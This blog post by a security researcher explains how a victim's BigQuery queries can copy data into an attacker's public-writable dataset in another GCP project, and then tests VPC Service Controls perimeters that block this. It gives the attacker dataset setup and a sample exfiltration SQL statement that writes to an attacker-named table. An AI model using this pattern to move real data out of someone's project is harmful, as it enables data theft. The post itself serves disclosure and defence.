

I recently discovered and responsibly disclosed [a vulnerability in the dbt analytics engineering solution](https://www.equalexperts.com/blog/tech-focus/are-you-at-risk-from-this-critical-dbt-vulnerability/). Google Cloud services are my default choice to process data, so I looked into how I could protect myself from data theft when I'm using BigQuery.

--8<-- "ee.md"

<!-- more -->

## Exfiltration to writable attacker dataset

!!! note
    The vulnerability I disclosed is related to how dbt processes packages. The risks and controls this post talks about go far beyond that though. They protect against attackers that have coerced a legitimate user to run their malicious code, including but not limited to SQL. They also protect against malicious insiders and plain old mistakes.

The idea behind exfiltration by this vulnerability is to covertly get a victim to run malicious SQL on the attacker's behalf. The victim has read access to sensitive data, and that data is copied out to the attacker's public-writable dataset, in a different GCP project. I don't see any way for the defender's IAM controls to prevent it. The solution seems to be [VPC Service Controls](https://cloud.google.com/vpc-service-controls/docs/overview). In those docs:

> To mitigate data exfiltration risks, your organization might also want to ensure secure data exchange across organizational boundaries with fine-grained controls. As an administrator, you might want to ensure the following:  
 - Clients with privileged access don't also have access to partner resources.  
 - Clients with access to sensitive data can only read public data sets but not write to them.  

Well... yes. It sure would be nice if you could stop data from being stolen from your projects! The good news is that VPC service controls can [prevent exfiltration from more services than just BigQuery](https://cloud.google.com/vpc-service-controls/docs/overview#how-vpc-service-controls-works). The bad news is that there's no protection by default and the feature doesn't seem very straightforward to use.

### Demo overview

I don't believe it 'til I see it work, so here's a demo of the problem, independently of tooling like dbt. It's the same setup I used in the disclosure article.



### Attacker setup

!!! note
    My initial exploration as I share it here uses the point-and-click console interface. To avoid any confusion, I'd recommend infrastructure as code and related good practices over point and click in an implementation that needs to be robust and reliable. That can be a big lift, especially for smaller organisations. Where that's the case, I'd say a bit of documentation and pointy-clicky steps still beats doing nothing!

The attacker has a standard GCP account. My attacker project is a [BigQuery sandbox account, no credit card needed](https://cloud.google.com/bigquery/docs/sandbox). I create a project with the id `attacker-project-428619` as normal. Enter the project's BigQuery console and create a dataset.

<figure markdown="span">
 
 <figcaption>Creating the attacker dataset in the US multi-region</figcaption>
</figure>

Next, I share the new dataset with the `allUsers` security principal, with the `data editor` role. This role allows anyone to create tables in this dataset.

<figure markdown="span">
 
 <figcaption>Allowing anyone to create tables the attacker dataset</figcaption>
</figure>

I think it's true that this dataset can now receive data from any BigQuery job, running in any other GCP project in the same region. The IAM permissions on the victim side are irrelevant. The other account needs a VPC service perimeter set up to prevent exfiltration. By default, they do not have one. I'll switch to my other GCP account to give it a try!

### Victim default setup

I create a new project with default settings - so I specify the name. This is my Tempered Works Ltd. company account, so I have an organisation here.

<figure markdown="span">
 
 <figcaption>victim-project is a child of org tempered.works by default</figcaption>
</figure>

I need to enable the BigQuery API to enter the project in the BigQuery console. Can I create a table in the attacker's dataset? I'll do the simplest thing I can:

```sql
CREATE OR REPLACE TABLE `attacker-project-428619.attacker_dataset.leak_it`
AS
SELECT 1 AS dummy
```

<figure markdown="span">
 
 <figcaption>A table leaks from victim-project to attacker-project without any permissions victim-side</figcaption>
</figure>

Is it really there? Oh yes.

<figure markdown="span">
 
 <figcaption>The leaked table on the attacker's side</figcaption>
</figure>

I remember when I saw this whilst experimenting with the dbt-based attack back in Feb. I expected **something** to stop the table appearing in the attacker's project. The wave of nausea when nothing did and I realised how easy it was.

I don't think it matters that the data in this simple demo isn't coming from a real table, so I won't waste time on more examples. I'm confident that anything the victim has permission to query can be exfiltrated this way. BigQuery tables, [federated queries](https://cloud.google.com/bigquery/docs/federated-queries-intro), [external tables](https://cloud.google.com/bigquery/docs/external-tables), anything.

## VPC service controls

I'll walk you through what I did to prove that these security features can prevent this exploit.

!!! note
    I needed lots of privileges to do any of this. I suspect the typical users or admins of a GCP project won't have any ability to do this stuff, perhaps not even to see it. In that case, I hope this information gives you enough insight to have a productive interaction with your GCP admins!

### What are VPC service controls and perimeters?

[VPC service controls](https://cloud.google.com/vpc-service-controls/docs/overview) can prevent this exfiltration. They work at the level of GCP API calls, and allow you to control what API calls are allowed to enter (ingress) or leave (egress) your project. I found it quite tricky to get my head around and set up but got it working effectively. At least, I got it working well enough to block this specific scenario!

The [secure data exchange with ingress and egress rules guide](https://cloud.google.com/vpc-service-controls/docs/secure-data-exchange) is probably the next useful resource - I want to apply egress rules to prevent API calls being made from my GCP project across a "service perimeter" that encompasses the projects that should be able to talk to one another. For this demo, I'll only have the victim project inside the perimeter. My next question - what's a service perimeter? Here's a [service perimeter overview](https://cloud.google.com/vpc-service-controls/docs/service-perimeters).

A lot is going on here. I had expected to find an automatic perimeter around the organisation that I could just check a box to say "prevent this project from interacting with anything outside its organisation". I appreciate that there will be much more complex needs in many larger organisations, but that seemed like a sensible default. I couldn't find anything so straightforward. 

### Target protections

Referring back to the previous diagram, this is the difference in what I'm trying to create.



The security perimeter can be a "folder" in the organisational structure that contains an egress rule to prevent BigQuery calls across the perimeter - or it can be scoped to the organisation itself.

### Create perimeter

Originally I set up a folder in the org and attached a service perimeter to that. I think I want a perimeter around the whole tempered.works organisation. I didn't think it was obvious how to do that, but I stumbled across it as I wrote this article!

First, I open the `VPC Service Controls` page. It's in the `Security` section.

<figure markdown="span">
 
 <figcaption>Opening VPC service controls</figcaption>
</figure>

I hit `MANAGE POLICIES`, then `CREATE`. I give the access policy a title - I've used `test` for this demo. I leave the included resources section empty (this is the part that makes it org-scoped!) and add my GCP super admin account as `Access Context Manager admin`.

<figure markdown="span">
 
 <figcaption>The access policy settings panel</figcaption>
</figure>

!!! note
    As part of these investigations, I realised I was actually using the super-admin account like a personal account. It was a bit of a pain to sort that out, and it costs money to have a second account that functions as super-admin. It means I'm only logging onto credentials with the power to, for example, drop this service perimeter protection, when I need that power. When I'm just using GSuite or GCP eg. to work on something in BigQuery, I can use my personal account instead.

Next, I select the `test` policy and then hit `NEW PERIMETER`.

<figure markdown="span">
 
 <figcaption>Controls to add a perimeter</figcaption>
</figure>

Now, a complicated form to fill in. Steps are:

- give it a title - I'll call mine `test-perimeter`
- leave it as a regular perimeter
- in `Restricted services` add all services
- in `VPC accessible services` select `No services`
- in `Ingress policy`, add a rule
    - FROM
        - Any identity
        - All sources
    - TO
        - All projects
        - All services
- `Create perimeter`

My understanding is that restricts all services from any project in the org, that is explicitly added to this perimeter, from egressing across the perimeter. I've added an ingress rule to allow any user or service account to make calls into the perimeter - without some ingress rule, you can't do anything. I'm pretty sure this loose ingress rule leaves me no worse off than I was with no perimeter at all so I'm fine with it - it's the egress I'm worried about.

### Test the perimeter

If I go back to the victim project, I can still run the exfiltration query. I need to go back into `test-perimeter` and add `victim-project` as a resource to protect. Don't forget to save! I do that and give it a few seconds before heading back to run the exfil query again...

This time, I got a big red error in the results panel `VPC Service Controls: Request is prohibited by the organisation's policy. vpcServiceControlsUniqueIdentifier: ....`

<figure markdown="span">
 
 <figcaption>Exfiltration query now fails</figcaption>
</figure>

I can still run normal SQL queries inside the project, but I can't access any resources outside the project, including querying other data in my organisation!

### Two projects in a perimeter

I suspect the policy as it stands is too restrictive to be useful, as I can't query any datasets from other projects in the org as it stands. It seems that a pragmatic starting point for a simple organisation like this is a perimeter around the org into which I can put projects so that they can interact with one another but not the outside world. This seems to be a straightforward update to my setup.

I go back and add a second project `other-project` to my organisation `test` perimeter. Then, I update the `VPC accessible services` to `all services`. After a minute to settle, I try a few experiments from `victim-project`. I am running as the owner of the projects that are in my orgnisation, so IAM will allow it, only VPC service controls can stop it.

|Test|SQL|Result|
|----|---|------|
|query a table in a dataset in `other-project`?|`SELECT * FROM other-project.example.test`|Yes|
|query a table in a dataset in `pypi-vulns`, in my org but outside the perimeter?|`SELECT COUNT(1) FROM pypi-vulns.published_us.vulnerable_downloads_overall`|No, prohibited by policy|
|query a table in `bigquery-public-data`?|`SELECT COUNT(1) FROM bigquery-public-data.usa_names.usa_1910_2013`|No, prohibited by policy|
|exfiltrate to `attacker-project`?|`CREATE OR REPLACE TABLE attacker-project-428619.attacker_dataset.leak_it AS SELECT 1 AS dummy`|No, prohibited by policy|

!!! note
    Even if you don't have permissions to see the VPC service controls in your organisation, you can tell whether they are in place by the errors you get back when you try to access resources you shouldn't be able to access. Errors like `VPC Service Controls: Request is prohibited by the organisation's policy.` mean that a perimeter prevented the action. IAM permissions errors indicate that a service perimeter did **not** prevent the action.

This seems like a decent starting point!

> Shout-out to this [Medium article giving a more IaC treatment, that mentioned how to use the identifier provided with deny messages to see why it was denied](https://medium.com/@bigface00/guarding-bigquery-enhancing-data-security-with-vpc-service-control-cd2fb37094a2). Very useful facility!

## Summary

My goals here were:

- to make sure I could use these controls :white_check_mark:
- to be confident that these controls really can prevent the exfiltration risk from BigQuery :white_check_mark:
- to be confident that these controls can mitigate the exfiltration with in the dbt vulnerability in BigQuery :white_check_mark:
- to get an idea how I might use these controls in practice :white_check_mark:

Thanks to [Jenna Jordan](https://www.linkedin.com/in/jennajordan1/) and [Maayan Salom](https://www.linkedin.com/in/maayansa/) for sharing their perspectives and prompting me to write this up. [The disclosure on the dbt Slack](https://getdbt.slack.com/archives/C01NH3F2E05/p1720001546356899) produced a great thread of different perspectives and some starting points for thinking about the same risks on other platforms.

--8<-- "blog-feedback.md"

